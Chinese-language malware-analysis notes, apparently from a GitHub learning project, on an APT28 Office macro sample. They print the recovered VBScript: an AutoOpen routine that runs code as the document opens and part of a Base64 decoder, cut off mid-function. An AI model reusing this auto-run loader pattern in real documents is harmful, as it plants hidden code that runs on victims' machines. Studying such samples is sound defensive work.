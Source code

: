 APT28-Cyber_Conflict

攻击手法 office 宏攻击

成功提取了样本，样本数量比预想的要多几个233 

针对样本进行分析  94b288154e3d0225f86bb3c012fa8d63  这个样本为一个doc文档

其宏存在加密 ，然后在网上找了一个破解的软件 ，提取了密码  ,进行了破解

![20180718160359.png](https://github.com/zhongshendoushuizhao/project/blob/master/APT&malwarle_learn/picture/20180718160359.png?raw=true) 

成功跟进到宏代码如下



```vbscript
Sub AutoOpen()
    Execute  #在打开doc文件时自动执行宏代码 执行Execute函数
End Sub

Private Function DecodeBase64(base64) As Byte()  #解密函数
    Const decodeTable = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
          
    If 0 <> Len(base64) Mod 4 Then
        Exit Function
    End If
      
    outputLen = (Len(base64) / 4) * 3
    If "=" = Mid(base64, Len(base64), 1) Then
        outputLen = outputLen - 1
    End If
    If "=" = Mid(base64, Len(base64) - 1, 1) Then
        outputLen = outputLen - 1
    End If
      
    Dim decodedBytes() As Byte
    ReDim decodedBytes(outputLen - 1)
    outputIndex = 0
          
    For quartet = 1 To Len(base64) Step 4
        groupBase64Number = 0
        Const base = 64
        realBytesInThisGroup = 3
        For i = 0 To 3
           inputChar = Mid(base64, quartet + i, 1)
           indexInTable = 0
        
           If "=" = inputChar Then
                realBytesInThisGroup = realBytesInThisGroup - 1
           Else
                indexInTable = InStr(1, decodeTable, inputChar, vbBinaryCompare) - 1
           End If
                 
           If -1 = indexInTable Then
                Exit Function
           End If
             
           groupBase64Number = (groupBase64Number * base) + indexInTable
        Next
      
        groupBase64Number = Hex(groupBase64Number)
            
        'add leading zeroes, lengt of hex = 6:
         groupBase64Number = String(6 - Len(groupBase64Number), "0") & groupBase64Number
            
        'split hex number into 3 groups, 2 hex characters each:
```